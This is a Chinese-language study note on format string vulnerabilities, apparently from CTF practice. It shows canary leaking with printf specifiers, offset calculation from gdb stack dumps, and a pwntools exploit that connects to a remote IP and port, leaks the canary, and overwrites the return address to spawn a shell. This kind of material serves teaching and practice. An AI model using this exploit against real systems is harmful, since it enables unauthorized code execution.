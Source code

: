 ```yaml
---
title: 格式化字符串漏洞
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## 作用
- 使程序崩溃
- 查看栈内容 （绕过栈保护）
- **任意地址读写**

任意读
printf("%3$d", 1,2,3);
printf("%s %s %s")
当不给参数时，会尝试读取栈上的数据

任意写
int count = 0;
printf("%n", &count);
%n      一次性写入4个字节
%hn     2个字节
%hhn    一个字节


## 绕过Canary保护
> 原理使用print读取canary的值，并重新放回去
> 或者爆破

确定canary位置的偏移，以及canary到返回地址的偏移
在ida反编译后 xor jz call 的位置就是比较canary的值

![alt text](image-20.png)

这是栈空间布局


> gdb 反编译确定 canary偏移
```zsh{2,4,17}
gdb-peda$ x $rbp-0x8
0x7fffffffe118: 0x589dbe7c0a8cea00
gdb-peda$ x/50xg $rsp
0x7fffffffe048: 0x00000000004007c2      0x0000000061616161
0x7fffffffe058: 0x0000000000000000      0x0000000000000000
0x7fffffffe068: 0x0000000000000000      0x0000000000000000
0x7fffffffe078: 0x0000000000000000      0x000000000000000c
0x7fffffffe088: 0x0000000000000040      0x0000000000140000
0x7fffffffe098: 0x000000000000000a      0x0000000000000040
0x7fffffffe0a8: 0x000000000000000c      0x0000000001800000
0x7fffffffe0b8: 0x0000000000000040      0x0000000000000002
0x7fffffffe0c8: 0x8000000000000006      0x0000000000000000
0x7fffffffe0d8: 0x0000000000000000      0x0000000000000000
0x7fffffffe0e8: 0x0000000000000000      0x0000000000000000
0x7fffffffe0f8: 0x0000000000000000      0x0000000000000000
0x7fffffffe108: 0x00007ffff7fe6900      0x0000000000000000
0x7fffffffe118: 0x589dbe7c0a8cea00      0x0000000000000001
0x7fffffffe128: 0x00007ffff7df06ca      0x00007fffffffe220
```
%p 按16进制输出数据 **8位**读取

偏移是26，为什么是26？ 因为要用%p打印 %p要打印的是一个地址，也就是相差26个地址的长度 一个长度为8字节

0x7fffffffe118 - 0x7fffffffe048 / 8 = 26

0x0000000061616161 前面一个 0x589dbe7c0a8cea00 后面一个

26 + 6 - 1

因为距离 26 且 前六个参数是入 寄存器，所以+6 , -1 是第31位是我们要打印的内容

而 到返回地址的距离是

0x7fffffffe128 - 0x7fffffffe118 - 1

-1 不算返回地址

## exp
```py
from pwn import *
# io = process("./format_canary2")
io = remote("120.46.59.242", 2058)
context(arch="amd64", os="linux")

leak = b"%31$p"
io.sendline(leak)
# 0x6bb33d2e7d015c00 == 18
canary = int(io.recv(18)[2:],16)
print(canary)

getshell_addr = 0x0000000000400805


padding = 0xD0 - 8
delim = 8
# 为什么 -8 根据 ida 你会发现 字符数组才200 为什么0xD0是208 因为 要错出 8个字节为 canary 留位置

payload = b'a'*padding + p64(canary) + b'a'*delim + p64(getshell_addr)

io.sendline(payload)
io.interactive()
```

## 26 , 31 这些都是什么？

栈上不仅有**函数参数**，还有数组的位置

26 是 栈上数组 到 canary的位置

而 31 是为了读取 栈上 canary的值

31 是怎么来的呢？

printf("%31$p")

前 6 个 %p 会去读 寄存器

后 25 个 读的就是 栈上数组的里的了，第26个是 cannary